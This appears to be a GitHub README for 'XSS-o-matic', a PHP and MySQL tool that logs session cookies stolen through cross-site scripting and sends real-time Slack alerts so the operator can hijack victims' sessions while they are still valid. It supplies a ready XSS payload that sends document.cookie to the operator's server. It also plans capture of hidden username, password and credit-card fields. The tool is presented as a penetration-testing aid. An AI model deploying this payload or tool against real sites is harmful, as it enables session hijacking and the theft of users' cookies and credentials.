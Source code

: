 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  

TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

After I wrote this script I realized anyone could pretty easily create an external JS to be referenced by a payload that JSON encodes the values and sends it directly to an IFTTT incoming webhook, essentially bypassing the need for this API.  Will need to look into that soon, but for now this works well.

# Future Implementation Goals Include : 

Capturing Cross Domain Cookies

Hidden User/Pass/CC Fields for Auto Population

Ability to Read Local Storage if Available

Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is discovered during an Application Security or Penetration Test, simply use `<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1` or a similar payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work!

Happy Hijacking!



![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)
